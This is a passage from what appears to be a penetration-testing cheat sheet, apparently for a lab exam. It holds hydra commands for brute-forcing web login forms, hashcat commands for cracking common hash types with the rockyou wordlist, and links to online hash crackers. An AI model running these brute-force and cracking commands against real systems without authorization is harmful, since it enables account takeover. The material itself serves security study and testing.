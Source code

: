 ```
hydra -L cewl_fin_50.txt -P cewl_fin_50.txt 10.11.1.111 http-get-form "/~login:username=^USER^&password=^PASS^&Login=Login:Unauthorized" -V

# GET FORM with HTTPS
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.11.1.111 -s 443 -S https-get-form "/index.php:login=^USER^&password=^PASS^:Incorrect login/password\!"

# SIMPLE LOGIN POST
hydra -l root@localhost -P cewl 10.11.1.111 http-post-form "/otrs/index.pl:Action=Login&RequestedURL=&Lang=en&TimeOffset=-120&User=^USER^&Password=^PASS^:F=Login failed" -I

# API REST LOGIN POST
hydra -l admin -P /usr/share/wordlists/wfuzz/others/common_pass.txt -V -s 80 10.11.1.111 http-post-form "/centreon/api/index.php?action=authenticate:username=^USER^&password=^PASS^:Bad credentials" -t 64

# Dictionary creation
https://github.com/LandGrey/pydictor
https://github.com/Mebus/cupp
git clone https://github.com/sc0tfree/mentalist.git
```

Hashcat
```
https://hashcat.net/wiki/doku.php?id=example_hashes // m parameter
https://mattw.io/hashID/types // hashid match

hashcat -m 0 'hash$' /home/kali/Documents/crack/rockyou.txt  // MD5 raw
hashcat -m 1800 'hash$' /home/kali/Documents/crack/rockyou.txt  // sha512crypt
hashcat -m 1600 'hash$' /home/kali/Documents/crack/rockyou.txt  // MD5(APR)
hashcat -m 1500 'hash$' /home/kali/Documents/crack/rockyou.txt  // DES(Unix), Traditional DES, DEScrypt
hascat  -m 1000 'hash$' /home/kali/Documents/crack/rockyou.txt  // NTLM
hashcat -m 500 'hash$' /home/kali/Documents/crack/rockyou.txt  // MD5crypt, MD5 (Unix)
hashcat -m 400 'hash$'/home/kali/Documents/crack/rockyou.txt  // Wordpress

```
Online crackers

```
https://md5hashing.net/hash/md5
https://www.cmd5.org/
https://www.onlinehashcrack.com/
https://gpuhash.me/
https://crackstation.net/
https://crack.sh/
https://hash.help/
https://passwordrecovery.io/
http://cracker.offensive-security.com/
```

# **Vulnerability analysis**
